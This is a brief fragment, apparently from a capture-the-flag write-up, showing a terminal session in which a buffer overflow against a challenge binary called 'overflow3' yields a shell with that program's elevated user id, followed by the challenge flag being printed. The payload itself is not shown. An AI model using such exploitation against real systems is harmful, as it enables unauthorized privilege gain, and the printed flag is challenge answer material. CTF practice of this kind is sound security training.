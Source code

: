 team24254@shell:/problems/overflow3$ ./overflow3 `cat ~/in.txt`

$ id

uid=1028(team24254) gid=1000(ctfgroup) euid=1079(overflow3) groups=1002(overflow3),1000(ctfgroup)

$ ls

Makefile  flag.txt  overflow3  overflow3.c

$ cat flag.txt

shellcode_more_like_hellcode
